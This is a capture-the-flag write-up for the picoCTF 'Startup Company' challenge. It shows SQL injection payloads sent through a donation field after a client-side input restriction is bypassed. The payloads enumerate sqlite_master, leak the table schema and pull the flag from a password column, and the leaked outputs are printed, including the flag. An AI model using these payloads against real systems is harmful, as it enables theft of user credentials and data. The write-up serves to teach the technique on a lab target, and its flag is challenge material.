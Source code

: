 # Startup Company
This is a `SQLi` challenge that involves leaking table data in order to find the flag. I Registered for an account and entered the payload into the `donation` input bar by removing it's `number only` class via the debug console and I get an `database error`. Now what?

## Method

We are supposed to extract table names and stuff using SQLi

Reffer to `Empire 1 ` from pico2019

# Payloads and Leaks

payload

```
'||(select tbl_name FROM sqlite_master WHERE type='table' limit 0,1 COLLATE NOCASE)||'
```

leak

```
startup_users
```
We see that we found a table called `startup_users`
---

payload

```
'||(select tbl_name FROM sqlite_master WHERE type='table' limit 1,1 COLLATE NOCASE)||'
```

leak

```
none
```
We see that `startup_users` is the only table in the database.
---

payload

```
'||(select sql FROM sqlite_master WHERE type='table' limit 0,1 COLLATE NOCASE)||'
```

leak

```
$CREATE TABLE startup_users (nameuser text, wordpass text, money int)
```
We leak the SQL structure of the table in which we can see the `wordpass` column stands out.
---

payload

```
'||(select wordpass FROM startup_users where wordpass like '%picoCTF%' limit 0,1 COLLATE NOCASE)||'
```

leak

```
picoCTF{1_c4nn0t_s33_y0u_55fb70fa}
```
We have leaked the `word_pass` column data.
